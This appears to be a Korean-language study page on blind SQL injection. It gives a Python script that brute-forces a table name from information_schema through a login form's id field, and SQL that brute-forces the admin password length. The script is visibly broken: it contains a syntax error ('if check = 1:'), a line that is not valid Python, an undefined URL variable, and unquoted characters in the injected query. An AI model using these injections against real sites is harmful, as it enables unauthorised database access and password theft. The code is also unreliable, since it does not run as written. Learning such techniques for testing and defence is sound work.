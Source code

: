 ### table name 브루트포스 script

```python
import requests

dataname = (table 뽑을 database(db) 이름)

check = 1

tablename = ''

for dblength in range(1,100):
    for i in range(33,122):
        data = {
            'id':f"' or substr((select table_name from information_schema.tables where table_schema='testdb' limit 0,1),{dblength},1)={chr(i)}",
            #tabme name 을 substr로 쿼리 만들기
            'pw':'No Value'
            #아무런 값
        }
        Urlrequest = requests.post(Url ,data=data)
        #post 방식으로 url 에 data 전송
        if Urlrequest.text.find("Login succee!") > 0:
            #id 의 query 가 삼일시에 로그인
            tablename += chr(i)
            #table name 에 chr(i) 를 하나씩 저장
            print(chr(i),end='')
            #chr(i) 로 줄바꿈 없이 table 네임한글자씩 출력
            check = 0
            break
    if check = 1:
        break
    check = 0    
    #check 로 length 체크       
```


## Password length
* * *
<br>

~~~~sql
admin User Password Blind Sql injection Start

SELECT * FROM member WHERE id='admin' and length(pw)=1~9--'' and pw=''

-> User admin 의 비밀번호 길이를 브루트포스 시도
~~~~
<br>

### __Python length 알아내기 위한 Sql injection__
<br>

